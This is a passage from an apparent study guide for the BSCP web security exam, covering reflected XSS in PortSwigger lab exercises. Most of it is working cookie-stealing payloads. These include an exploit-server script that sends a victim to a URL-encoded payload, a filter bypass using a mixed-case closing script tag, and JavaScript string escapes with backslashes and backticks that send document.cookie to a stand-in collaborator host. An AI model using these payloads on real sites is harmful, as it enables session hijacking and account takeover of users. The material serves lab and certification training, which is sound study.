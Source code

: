 >In BSCP exam host the below payload on exploit server inside `<script>` tags, and the search query below before it is URL encoded.  

```
</ScRiPt ><img src=a onerror=document.location="https://COLLABORATOR.com/?biscuit="+document.cookie>
```  

>Exploit Server hosting search term reflected vulnerability that is send to victim to obtain their session cookie.  

```html
<script>
location = "https://TARGET.net/?search=%3C%2FScRiPt+%3E%3Cimg+src%3Da+onerror%3Ddocument.location%3D%22https%3A%2F%2FCOLLABORATOR.com%2F%3Fbiscuit%3D%22%2Bdocument.cookie%3E"
</script>
```  

>The application gave error message `Tag is not allowed`, and this is bypassed using this `</ScRiPt >`.  

### Reflected String Extra Escape  

>See in `source code` the variable named ```searchTerms```, and when submitting payload ```fuzzer'payload```, see the single quote is backslash escaped, and then send a  ```fuzzer\payload``` payload and ***identify*** that the backslash is not escaped.  

```
\'-alert(1)//  

fuzzer\';console.log(12345);//  

fuzzer\';alert(`Testing The backtick a typographical mark used mainly in computing`);//
```

>Using a single **backslash**, single quote and **semicolon** we escape out of the JavaScript string variable, then using back ticks to enclose the ```document.location``` path, allow for the cookie stealer to bypass application protection.  

```
\';document.location=`https://COLLABORATOR.com/?BackTicks=`+document.cookie;//
```  

>With help from Trevor I made this into cookie stealer payload, using back ticks. Thanks Trevor, here is his Youtube walk through [XSS JavaScript String Angle Brackets Double Quotes Encoded Single](https://youtu.be/Aqfl2Rj0qlU?t=598)  
  
![fail-escape](images/fail-escape.png)  
  
[PortSwigger Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)  
  
### AngularJS Sandbox Escape  

>Expert PortSwigger Lab exercise using AngularJS 1.4.4 and versions 1.x has reached end of life and is no longer maintained.  
>This lab uses **AngularJS** in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS.  
>Objective, perform a cross-site scripting attack that escapes the sandbox and executes the payload without using the `$eval` function.  
